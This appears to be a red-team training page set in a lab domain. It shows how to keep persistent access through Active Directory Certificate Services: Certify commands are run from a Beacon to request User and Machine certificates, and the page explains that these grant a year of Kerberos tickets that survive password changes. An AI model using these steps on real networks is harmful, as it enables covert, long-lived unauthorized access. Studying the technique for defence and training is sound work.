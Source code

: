 As we saw in the Active Directory Certificate Services module, certificates can be leveraged for privilege escalation.  They can also be useful for maintaining persistent access to both users and computers.  This is especially viable if managerial approval is not required for certificate requests.

### User Persistence

In this example, I have a Beacon running as **DEV\nlamb**.  Use Certify to find all the certificates that permit client authentication:

```
beacon> getuid
[*] You are DEV\nlamb

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /clientauth
```

  

This will show _every_ certificate template in both CA-1 and CA-2 that has a suitable [EKU](https://www.pkisolutions.com/object-identifiers-oid-in-pki/) (Extended Key Usage) for client authentication, so we need to search the output for a template that matches our requirements.  To limit the volume of output, we can only return templates from the CA in our current domain, using `/ca:dc-2.dev.cyberbotic.io\ca-2`.

It is possible that CA-1 could have templates that we could enrol with, so if nothing was found on CA-2 make sure to check other CAs as well.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/adcs/user-cert-template.png)

  

This is the default `User` template provided by Microsoft.  The important aspects are:

-   The validity period is 1 year.
-   Authorization is not required.
-   Domain Users in DEV have enrollment rights.

  

Request a certificate from this template using `Certify.exe request`:

```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\ca-2 /template:User

[*] Action: Request a Certificates
[*] Current user context    : DEV\nlamb
[*] No subject name specified, using current context as subject.

[*] Template                : User
[*] Subject                 : CN=Nina Lamb, CN=Users, DC=dev, DC=cyberbotic, DC=io

[*] Certificate Authority   : dc-2.dev.cyberbotic.io\ca-2

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 3

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAo5ejiiRTGXwUsgp5ym3xDOM1ywyb66gnCgBQgNH+vKGHVvRv
[...snip...]
ogA4OuTwSHtQMWDz+22b8Ov1GGKiEWb8xrEWOblXAuanuZVAV6c=
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGFzCCBP+gAwIBAgITKQAAAANefI7KgovYwAAAAAAAAzANBgkqhkiG9w0BAQsF
[...snip...]
oY+5b0v0Oa5ofHUC8gSg5BfUlEalH516fAaC
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

  

This certificate allows us to request a TGT for nlamb using Rubeus.  It's valid for 1 year (yes, we can use it to request TGTs for an entire year), and will continue working even if the user changes their password.  It's an excellent user persistence method because it doesn't involve touching LSASS and can be utilised without the need for an elevated context.  The certificate will only become in invalid if it's specifically revoked on the CA.

  
### Computer Persistence

This scenario is not all that different from above.  Machines are a special type of user in AD and can have their own certificates issued.  The default template for computers is called `Machine` (the template display name is `Computer`).  By default they are also valid for 1 year, do not require authorization, and all domain computers have enrollment rights.

```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\ca-2 /template:Machine /machine
```
  

The `/machine` parameter tells Certify to auto-elevate to SYSTEM and assume the identity of the machine account (for which you need to be running in high-integrity).